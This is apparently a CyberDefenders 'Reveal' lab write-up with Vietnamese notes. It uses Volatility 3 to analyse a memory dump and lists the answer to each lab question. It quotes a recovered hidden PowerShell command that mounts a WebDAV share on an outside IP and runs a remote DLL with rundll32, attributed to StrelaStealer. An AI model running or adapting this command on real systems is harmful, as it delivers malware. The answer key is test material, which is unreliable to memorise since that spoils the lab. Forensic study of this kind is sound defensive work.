







# You are a forensic investigator at a financial institution, and your SIEM flagged unusual activity on a workstation with access to sensitive financial data. Suspecting a breach, you received a memory dump from the compromised machine. Your task is to analyze the memory for signs of compromise, trace the anomaly's origin, and assess its scope to contain the incident effectively.

### Tool:
Volatility 3

## Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?
powershell.exe

Dùng `windows.cmdline` cung cấp các tham số dòng lệnh của các tiến trình `vol -f /home/tpq/Downloads/CyberDefenders/192-Reveal.dmp windows.cmdline`

## Knowing the parent process ID (PPID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process?
4120

Dùng `vol -f /home/tpq/Downloads/CyberDefenders/192-Reveal.dmp windows.psscan`

## Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload?
3435.dll

Dựa vào PID 3692 là powershell.exe

Command: `powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`

Phân tích:
- `windowstyle hidden`: Ẩn cửa sổ, cho thấy ý định tránh bị phát hiện.
- `net use \\45.9.74.32@8888\davwwwroot\`: Tạo kết nối mạng đến thư mục WebDAV trên máy chủ từ xa (45.9.74.32:8888).
- `rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry`: Sử dụng rundll32.exe để tải và thực thi tệp 3435.dll từ thư mục WebDAV

## Identifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server?
davwwwroot

Dựa vào kết quả trên tên của thư mục được chia sẻ được truy cập trên máy chủ từ xa

## What is the MITRE ATT&CK sub-technique ID that describes the execution of a second-stage payload using a Windows utility to run the malicious file?
T1218.011

T1218.011 - Rundll32: Đây là công nghệ phụ cụ thể mô tả việc sử dụng rundll32.exe để thực thi mã độc, bao gồm cả việc tải và chạy các DLL từ xa (như 3435.dll trong trường hợp này)

## Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?
elon

Plugin windows.getsids trong Volatility 3 cho phép liệt kê các SID (Security Identifiers) liên quan đến một tiến trình. SID có thể được ánh xạ thành tên người dùng, đặc biệt là SID của tài khoản người dùng hoặc tài khoản hệ thống.
`vol -f /home/tpq/Downloads/CyberDefenders/192-Reveal.dmp windows.getsids --pid 3692`

## Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family?
STRELASTEALER 

Dựa vào kết quả trên ta có IP `45.9.74.32` kiểm tra virustotal ta được báo 

